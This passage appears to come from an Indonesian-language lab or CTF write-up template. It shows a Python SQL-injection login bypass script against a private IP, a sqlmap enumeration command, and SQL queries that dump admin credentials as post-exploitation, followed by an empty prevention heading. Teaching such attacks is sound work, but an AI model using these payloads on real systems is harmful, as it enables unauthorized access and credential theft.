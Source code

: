 **Manual Exploitation:**

```python title="exploit.py" showLineNumbers {10-12}
#!/usr/bin/env python3
import requests

# Target URL
target = "http://192.168.1.100/login.php"

# Payload
payload = {
    'username': "admin' OR '1'='1",
    'password': "anything",
    'submit': 'Login'
}

# Send exploit
response = requests.post(target, data=payload)

if "Welcome" in response.text:
    print("✅ Exploit berhasil!")
    print(response.text)
else:
    print("❌ Exploit gagal")
```

**Automated dengan Tool:**

```bash title="automated-exploit.sh"
# Gunakan sqlmap untuk automated testing
sqlmap -u "http://192.168.1.100/login.php?id=1" \
       --dbs \
       --batch \
       --random-agent
```

### Step 3: Post-Exploitation

[Jelaskan apa yang dilakukan setelah berhasil exploit]

**Ekstrak Data:**

```sql title="extract-data.sql" showLineNumbers
-- Query untuk ekstrak data sensitif
SELECT username, password, email
FROM users
WHERE privilege = 'admin';

-- Dump semua tables
SHOW TABLES;
```

---

## 🛡️ Cara Mencegah [Vulnerability]
